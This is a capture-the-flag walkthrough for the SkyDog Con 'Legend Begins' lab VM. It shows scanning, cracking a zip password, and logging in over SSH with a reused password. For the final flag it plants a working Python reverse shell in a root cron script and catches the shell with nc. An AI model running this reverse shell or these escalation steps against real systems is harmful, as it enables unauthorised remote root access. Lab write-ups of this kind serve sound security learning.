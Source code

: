 # SkyDog Con CTF - The Legend Begins
## Flag 1 
Find virtualbox in network:
```sh
$ nmap 192.168.0.0/24
Nmap scan report for 192.168.0.101
Host is up (0.00030s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
So, open 80 port in browser and get image.
Try to get metadata from image with exiftool:
```sh
$ exiftool SkyDogCon_CTF.jpg 
ExifTool Version Number         : 9.74
File Name                       : SkyDogCon_CTF.jpg
Directory                       : .
File Size                       : 83 kB
File Modification Date/Time     : 2015:09:18 14:35:25+03:00
File Access Date/Time           : 2017:07:10 22:36:40+03:00
File Inode Change Date/Time     : 2017:07:10 22:36:33+03:00
File Permissions                : rw-rw-r--
File Type                       : JPEG
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 96
Y Resolution                    : 96
Exif Byte Order                 : Big-endian (Motorola, MM)
Software                        : Adobe ImageReady
XP Comment                      : flag{abc40a2d4e023b42bd1ff04891549ae2}
Padding                         : (Binary data 2060 bytes, use -b option to extract)
Image Width                     : 900
Image Height                    : 525
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 900x525
```
### flag{abc40a2d4e023b42bd1ff04891549ae2}
Trying to break flag hash with crackstation: md5(Welcome Home)
## Flag 2 
Open robots.txt and get the next flag:
### flag{cd4f10fcba234f0e8b2f60a490c306e6}
md5 from flag is Bots
## Flag 3
Running nikto on web application:
```sh
$ nikto -host 192.168.0.101
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.0.101
+ Target Hostname:    192.168.0.101
+ Target Port:        80
+ Start Time:         2017-07-10 22:52:16 (GMT3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x2b 0x5200b3f35ee65 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ File/dir '/index.html?' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/?/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/?hl=/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/?hl=*&/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/?hl=*&gws_rd=ssl$/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/?hl=*&*&gws_rd=ssl/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/?gws_rd=ssl$/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/?pt1=true$/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/Setec/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 299 entries which should be manually viewed.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6544 items checked: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2017-07-10 22:52:28 (GMT3) (12 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Get an image from /Setec/ give no any information. Google for "too many secrets" give a hint with film "The sneakers". Load movie script, make a dictionary and run dirbuster.
```sh
tr -cs 'a-zA-Z0-9' '\n' <sneakers-script-transcript-robert-redford.html >>dict.txt
```
Dirbuster shows a lot of interesting information:
```sh
http://192.168.0.101/PlayTronics/flag.txt
```
### flag{c07908a705c22922e6d416e0e1107d99}
md5 - leroybrown
## Flag 4
From dirbuster get zip file:
```sh
http://192.168.0.101/Setec/Astronomy/Whistler.zip
```
But it is encrypted.
Trying to crack it:
```sh
$ fcrackzip -D -p rockyou.txt -u Whistler.zip 
PASSWORD FOUND!!!!: pw == yourmother
```
### flag{1871a3c1da602bf471d3d76cc60cdb9b}
yourmother
## Flag 5
Open pcap file with wireshark (http://192.168.0.101/PlayTronics/companytraffic.pcap) and extract media file.
Linstening it get :  
                  Hi. My name is Werner Brandes.
                  My voice is my passport.  Verify me. Thank you.
So try to log in with this name and with some hash from previous flags:
correct name:password : wernerbrandes:leroybrown
For future: do not do this manually. make a dictionary
```sh
~$ ls
2.py  flag.txt
wernerbrandes@skydogctf:~$ cat flag.txt 
```
### flag{82ce8d8f5745ff6849fa7af1473c9b35}
hash result not found

## Flag 6
We see python script which makes system call with shell and cron task with root privilege in list of processes. Wait a lot - and nothing happens. Try to find another file:
```sh
$ find / -writable -type f 2> /dev/null
/lib/log/sanitizer.py
```
So, change it a little:
```sh
#!/usr/bin/env python
import os
import sys

import socket
import subprocess	
import os

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.0.103", 12345))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
#try:
#	os.system('rm -r /tmp/* ')
#except:
#	sys.exit()

```
And listen port on host machine: 
```sh
$ nc -l 192.168.0.103 12345
/bin/sh: 0: can't access tty; job control turned off
# ls
BlackBox
# cd BlackBox
# ls
flag.txt
# cat flag.txt
flag{b70b205c96270be6ced772112e7dd03f}

Congratulations!! Martin Bishop is a free man once again!  Go here to receive your reward.
/CongratulationsYouDidIt# 

```